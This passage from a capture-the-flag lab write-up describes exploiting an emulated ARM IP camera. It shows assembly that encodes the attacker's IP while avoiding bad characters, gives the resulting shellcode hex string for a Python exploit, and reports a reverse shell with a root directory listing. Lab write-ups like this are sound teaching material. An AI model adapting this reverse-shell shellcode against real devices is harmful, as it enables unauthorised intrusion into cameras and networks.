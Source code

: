 Now that we've understood how this works, we can craft our own hex byte string that points back to our local machine IP address - in our case this will be `10.10.52.240`.

```
/* ADDR */
mov r1, #0xf0   // store '240' in R1
lsl r1, #8      // shift by 8 bits to the left
add r1, #0x34   // add '52' to R1
lsl r1, #8      // shift by 8 bits to the left
add r1, #0x08   // add '8' and '2' to R1 (since we cannot pass the hex value for 10; '0x0a')
add r1, #0x02
lsl r1, #8      // shift by 8 bits to the left
add r1, #0x08   // add '8' and '2' to R1 (since we cannot pass the hex value for 10; '0x0a')
add r1, #0x02
push {r1}       
```
Now we can simply copy this set of instructions to the assembler and convert it to a hex string that we can paste into the Python Script:
_(Make sure to select `ARM` for the processor type and to copy the Little Endian output)_

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/e90c2569-f13d-42d5-8eb3-3b0ecacc003c)

You can follow [THIS LINK](https://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=mov+r1%2C+%230xf0++%0D%0Alsl+r1%2C+%238++++%0D%0Aadd+r1%2C+%230x34+++%0D%0Alsl+r1%2C+%238++++++%0D%0Aadd+r1%2C+%230x08+++%0D%0Aadd+r1%2C+%230x02%0D%0Alsl+r1%2C+%238++++++%0D%0Aadd+r1%2C+%230x08+++%0D%0Aadd+r1%2C+%230x02++++%0D%0Apush+%7Br1%7D++&arch=arm&as_format=inline#assembly) and simply change the `#0xf0` and `#0x34` values to correspond to your IP address - but remember to avoid using any *bad characters*!

So we can now update the python script with the new byte string we generated:
```
'\xf0\x10\xa0\xe3\x01\x14\xa0\xe1\x34\x10\x81\xe2\x01\x14\xa0\xe1\x08\x10\x81\xe2\x02\x10\x81\xe2\x01\x14\xa0\xe1\x08\x10\x81\xe2\x02\x10\x81\xe2\x04\x10\x2d\xe5'
```

[You may have a look at the updated python code here](code/Snowy_ARMageddon/modified_exploit.py).

Just by running the `modified_exploit.py` we get a reverse shell connection to the IP Camera 😃

![image](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/c407311b-5deb-4533-95e3-7cc1a944a6ea)

Now that we're in we can have a look at the contents of the root folder and we can see that there is a hidden folder called `.emux`.

```
$ ls -la
drwxr-xr-x   14 1000     1000          4096 Dec  4  2023 .
drwxr-xr-x   14 1000     1000          4096 Dec  4  2023 ..
drwxr-xr-x    2 root     root          4096 Jan 16  2024 .emux
drwxr-xr-x    2 1000     1000          4096 Dec 17  2023 bin
drwxr-xr-x    2 1000     1000          4096 Jan 16  2024 dev
drwxr-xr-x   15 1000     1000          4096 Dec  4  2023 etc
drwxr-xr-x    4 1000     1000          4096 Feb  6  2017 home
drwxr-xr-x    3 1000     1000          4096 Feb  6  2017 lib
dr-xr-xr-x   77 root     root             0 Dec 31 19:00 proc
drwxr-xr-x    2 1000     1000          4096 Dec 17  2023 root
drwxr-xr-x    2 1000     1000          4096 Feb  6  2017 sbin
drwxr-xr-x   12 root     root             0 Dec 31 19:00 sys
lrwxrwxrwx    1 1000     1000             8 Feb  6  2017 tmp -> /var/tmp
drwxr-xr-x    4 1000     1000          4096 Feb  6  2017 usr
drwxr-xr-x   13 1000     1000          4096 Jan 16  2024 var
```
